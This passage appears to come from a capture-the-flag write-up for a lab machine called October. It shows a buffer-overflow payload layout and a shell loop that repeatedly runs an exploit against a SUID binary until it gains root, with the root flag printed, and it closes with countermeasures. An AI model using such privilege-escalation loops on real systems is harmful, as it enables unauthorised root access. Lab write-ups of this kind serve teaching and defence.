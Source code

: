 The format of the buffer is essentially the following:

```
NOP SLED|RETURN ADDRESS|PREVIOUS STACK FRAME ADDRESS|FUNCTION ARGUMENTS
```

I wrote `loop-exploit.sh` to run `exploit.py` until I got a root shell:

```bash
#!/bin/sh

while true; do
    /usr/local/bin/ovrflw $(python3 exploit.py)
done
```

```
www-data@october:/dev/shm$ ./loop-exploit.sh
Segmentation fault (core dumped)
Segmentation fault (core dumped)
... CONTENT SNIPPED ...
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
6bcb9cff749c9318d2a6e71bbcf30318
```

## Countermeasures

* Keep October CMS updated to the latest version.
* Change the default login credentials on October CMS.
* Upgrade the operating system the latest version (x64 bit is preferred to make ASLR more effective).
* Don't keep vulnerable root SUID binaries around on the machine.
